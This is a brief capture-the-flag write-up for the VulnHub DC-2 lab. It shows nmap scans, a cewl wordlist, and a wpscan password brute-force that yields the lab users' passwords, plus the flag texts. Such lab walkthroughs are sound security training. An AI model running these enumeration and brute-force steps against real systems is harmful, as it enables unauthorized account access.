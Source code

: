 vulnhub DC-2 writeup

#Enumeration
root@parrot]─[/home/user]
└──╼ #nmap -sV -sC -O -A 192.168.0.131
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-26 10:03 UTC
Nmap scan report for DC-2 (192.168.0.131)
Host is up (0.00085s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.7.10
|_http-server-header: Apache/2.4.10 (Debian)
| http-title: DC-2 &#8211; Just another WordPress site
|_Requested resource was http://dc-2/
MAC Address: 08:00:27:6E:FC:4F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop


# cewl
[root@parrot]─[/home/user]
└──╼ #cewl -w dc-2.txt -o http://192.168.0.131
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)


# wordpress scan
┌─[root@parrot]─[/home/user]
└──╼ #wpscan -P /home/user/dc-2.txt -e vp --url http://dc-2

#output of wordpress scans
[i] User(s) Identified:

[+] admin
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] jerry
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


[i] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

##flag1 


Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.

More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.

##flag2

Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.

##zenmap command

nmap -p 1-65535 -T4 -A -v 192.168.0.131

results:
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
